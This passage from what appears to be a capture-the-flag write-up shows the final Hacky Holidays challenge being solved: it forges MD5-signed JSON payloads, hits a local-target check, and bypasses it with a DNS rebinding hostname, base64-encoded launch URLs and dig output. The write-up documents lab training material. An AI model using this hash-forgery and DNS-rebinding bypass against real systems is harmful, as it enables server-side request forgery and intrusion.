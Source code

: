We successfully cracked the hashes and are now able to generate our payloads. As a quick sanity check we can confirm that the MD5 of `mrgrinch463203.0.113.33` is indeed `5f2940d65ca4140cc18d0878bc398955`. So lets redirect the attack against `127.0.0.1` with the following payload `{"target":"127.0.0.1","hash":"3e3f8df1658372edf0214e202acb460b"}`, with `3e3f8df1658372edf0214e202acb460b` being the MD5 for `mrgrinch463127.0.0.1`. Launching the attack with `/attack-box/launch?payload=eyJ0YXJnZXQiOiIxMjcuMC4wLjEiLCJoYXNoIjoiM2UzZjhkZjE2NTgzNzJlZGYwMjE0ZTIwMmFjYjQ2MGIifQ==` and visiting `https://hackyholidays.h1ctf.com/attack-box/launch/5867c35a78d569fea1d4ac81ae55e2e1`, we can see that:`Local target detected, aborting attack`. This means there is a detection in place, such that we do not attack ourselves. It would be great if we first could pretend that we are the target IP and then switch to the localhost. We can achieve exactly this with a [DNS rebinding attack](https://en.wikipedia.org/wiki/DNS_rebinding). I used the following [service](https://lock.cmpxchg8b.com/rebinder.html). What it does is: "The hostname generated will resolve randomly to one of the addresses specified with a very low time to live record." We insert our two IP addresses of choice `203.0.113.33` and `127.0.0.1` we receive the following address: `cb007121.7f000001.rbndr.us`. With `dig A cb007121.7f000001.rbndr.us` we can confirm that the address indeed resolves to any of the two domains randomly:
```
cb007121.7f000001.rbndr.us. 1	IN	A	203.0.113.33
cb007121.7f000001.rbndr.us. 1	IN	A	127.0.0.1
```
Again we can construct a new payload and base64 encode it: 
```
{"target":"cb007121.7f000001.rbndr.us","hash":"aa9c061c933f709acb4d69329bc7b1af"}
eyJ0YXJnZXQiOiJjYjAwNzEyMS43ZjAwMDAwMS5yYm5kci51cyIsImhhc2giOiJhYTljMDYxYzkzM2Y3MDlhY2I0ZDY5MzI5YmM3YjFhZiJ9
```
With the following path we can launch our attack: `/attack-box/launch?payload=eyJ0YXJnZXQiOiJjYjAwNzEyMS43ZjAwMDAwMS5yYm5kci51cyIsImhhc2giOiJhYTljMDYxYzkzM2Y3MDlhY2I0ZDY5MzI5YmM3YjFhZiJ9`. The attack might not be successful on the first try, but after a few attempts the DNS rebinding attack is successful and we are knocking off the Grinch's server, and getting reconnected to `https://hackyholidays.h1ctf.com/attack-box/challenge-completed-a3c589ba2709` were we are presented with the final flag.

## Impact

Positive impact on my life.

## Attachments
No attachments
